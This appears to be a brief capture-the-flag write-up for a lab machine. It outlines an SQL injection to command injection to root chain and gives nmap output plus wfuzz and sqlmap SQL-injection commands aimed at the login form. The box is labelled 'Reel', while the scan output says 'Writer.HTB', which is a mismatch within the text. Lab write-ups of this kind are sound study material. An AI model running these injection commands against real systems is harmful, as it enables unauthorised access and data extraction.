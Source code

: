 # Summary



## about target

tip:  10.129.228.124

hostname:  Reel

Difficulty:  Hard



## about attack

+ Sqli wfuzz, extract mysql data
+ sqli load file, lfi-linux-list.txt;
+ python flask web code review, command injection to shell.
+ group writable file and exploit postfix disclaimer
+ group writable apt.conf.d to root.





**attack note**

```bash
Reel / 10.129.228.124


PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 9820b9d0521f4e103a4a937e50bcb87d (RSA)
|   256 1004797a2974db28f9ffaf68dff13f34 (ECDSA)
|_  256 77c4869a9f334fda71202ce151107e8d (ED25519)
80/tcp    open   http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Story Bank | Writer.HTB
139/tcp   open   netbios-ssn Samba smbd 4.6.2
445/tcp   open   netbios-ssn Samba smbd 4.6.2
27741/tcp closed unknown
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

---- Interesting
-- from 1337, sec_notes/


---- Enum 


wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt  -u http://writer.htb/administrative -d "uname=FUZZ&password=password"  -p 127.0.0.1:8080:HTTP


sqlmap -r login.req --level=3 --risk=3  --time-sec 1 --current-user --batch

https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet


```